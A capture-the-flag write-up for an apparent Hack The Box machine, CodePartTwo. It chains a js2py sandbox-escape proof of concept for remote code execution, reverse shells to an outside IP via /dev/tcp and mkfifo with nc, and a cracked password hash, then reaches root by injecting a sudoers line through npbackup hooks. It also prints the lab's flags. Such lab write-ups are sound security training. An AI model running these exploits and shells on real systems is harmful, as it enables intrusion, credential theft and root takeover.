

## TL;DR

Sandbox escaping from `js2py` using known exploit, and achieving shell. Crack password from `users.db` to get `marco`'s password. using `npbackup` to achieve root shell.

### Recon

First we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


So, we got port `8000` opened and running http server on it, *Gunicorn* server, version 20.0.4
```bash
PORT     STATE SERVICE VERSION
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
```

### Exploit CVE-2024-28397-js2py-Sandbox-Escape

When accessing the website in port `8000`, we can see the source code, and also that we can execute commands in the /dashboard tab.


In the source code, in `app/app.py`, we can see those lines:
```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

So, it uses `js2py.eval_js` to execute commands. After googling, i found that we can achieve RCE, and this github repo jumped to me [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/).

We can use the PoC it supplies:
```js
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

We need to change the command, I tried to execute this `sh -i >& /dev/tcp/10.10.14.168/770 0>&1` to achieve remote shell, but it didn't work.
So, i used other payload from [https://www.revshells.com/](https://www.revshells.com/), I tried with `mkfifo`, and it worked.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.168 770 >/tmp/f
```

So, let's paste those commands, to achieve easier shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Get db file and analyze it

We can see the user `marco`, but when trying to access his `/home` directory, we get access denied, because we only have privileges of `app` user.

Okay, after some searching, i came to the file `users.db` inside `/app/instance`, and decided to pull it out, using simple http server.
on remote server:
```bash
python3 -m http.server 1337
```
on my machine:
```bash
curl http://$target:1337/users.db -o users.db
```


We start with `file` to check what is the file, 
```bash
┌──(agonen㉿kali)-[~/htb/CodePartTwo]
└─$ file users.db          
users.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 4, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```
Okay, this is sqlite3 database file, let's open it: 
```bash
sqlite3 users.db
```

We can use `.tables` to show available tables, and then select all data from `user` table, using `select * from user;`


```
sqlite> select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

using [https://crackstation.net/](https://crackstation.net/) we managed to crack the password of marco, which is `sweetangelbabylove`.


I tried to `ssh` to the machine, using the user `marco` and it's password:
```bash
ssh marco@$target
```


Now, let's grab the user flag:
```bash
marco@codeparttwo:~$ cat /home/marco/user.txt
4cbd9ff095cbd1daeaaf6994bc239f46
```

### Escalate Privilege

We start with `sudo -l`, to view what marco can do:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

we can see he can execute `/usr/local/bin/npbackup-cli` as root. In the `npbackup.conf` we can see this line:
```
post_exec_commands: []
```
maybe we can add our own commands, and then when we will do backup, it'll run those commands as an admin.

Let's try to add these commands, the idea is to give marco the ability to do anything:
```bash
echo 'marco ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/marco; chmod 440 /etc/sudoers.d/marco
```


And now, we'll execute backup, `-c` to supply the conf file, `-b` to say we want backup, and `-f` to force it, even if there is nothing new to backup.
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b -f
```

Now we can check again using `sudo -l`:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
    (ALL) NOPASSWD: ALL
```

And we got it! we can summon shell or simply reading the root flag:
```
marco@codeparttwo:~$ sudo cat /root/root.txt
6b753ed66a2fbfd92fe5e291ccd3e1e2
```



**User Flag:*****`4cbd9ff095cbd1daeaaf6994bc239f46`***

**Root Flag:*****`6b753ed66a2fbfd92fe5e291ccd3e1e2`***
